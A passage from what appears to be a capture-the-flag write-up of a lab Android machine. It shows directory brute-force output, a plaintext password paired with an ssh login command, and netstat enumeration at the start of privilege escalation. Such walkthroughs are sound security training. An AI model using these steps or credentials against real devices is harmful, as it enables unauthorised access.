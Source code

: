 ```
/etc (Status: 301)
/init (Status: 403)
/lib (Status: 301)
/mnt (Status: 301)
/oem (Status: 301)
/proc (Status: 301)
/product (Status: 301)
/sbin (Status: 301)
/storage (Status: 301)
/sys (Status: 301)
/system (Status: 301)
/vendor (Status: 301)
```

*Now here, there are a whole bunch of juicy directory here, if you are familiar with an Android device, you will discover that these come from an Android phone and /oem looks like sth useful.
An OEM may actually render an existence of usb drivers, sdcard (https://developer.android.com/studio/run/oem-usb)


Even though we are unable to discover anything juicy on the other directory OR the original bruteforce wordlist does not have an Android wordlist; we can try with different directories that may appear with an Android phone where oem is enabled --> an sdcard directory


![Credential](/assets/images/24701.png)

With such credential, we can now ssh in.

```
Kr1sT!5h@Rp3xPl0r3!
ssh kristi@10.10.10.247 -p 2222
```

*Initial foothold obtained but privilege escalation needed*

## Privilege Escalation

Enumerating from the inside, we have to check what kind of ports the phone is running open:
```
$ netstat -tulpn                                                        
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program Name
tcp        0      1 10.10.10.247:57644      1.0.0.1:853             SYN_SENT    -
tcp        0      1 10.10.10.247:33220      1.1.1.1:853             SYN_SENT    -
tcp6       0      0 ::ffff:10.10.10.2:44801 :::*                    LISTEN      -
tcp6       0      0 :::59777                :::*                    LISTEN      -
tcp6       0      0 :::2222                 :::*                    LISTEN      3409/net.xnano.android.sshserver
tcp6       0      0 :::5555                 :::*                    LISTEN      -
tcp6       0     80 ::ffff:10.10.10.24:2222 ::ffff:10.10.14.2:33888 ESTABLISHED 3409/net.xnano.android.sshserver
udp        0      0 10.10.10.247:38490      1.0.0.1:53              ESTABLISHED -
udp        0      0 10.10.10.247:21166      1.0.0.1:53              ESTABLISHED -
udp        0      0 10.10.10.247:51900      1.1.1.1:53              ESTABLISHED -
udp        0      0 10.10.10.247:6034       1.1.1.1:53              ESTABLISHED -
udp        0      0 10.10.10.247:39874      1.1.1.1:53              ESTABLISHED -
udp        0      0 10.10.10.247:45053      1.1.1.1:53              ESTABLISHED -
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           -
udp        0      0 0.0.0.0:58865           0.0.0.0:*                           -
udp6       0      0 :::57859                :::*                                -
udp6       0      0 ::ffff:10.10.10.2:53940 :::*                                -
udp6       0      0 :::1900                 :::*                                -
udp6       0      0 :::5353                 :::*                                -
udp6       0      0 :::5353                 :::*                                -
```
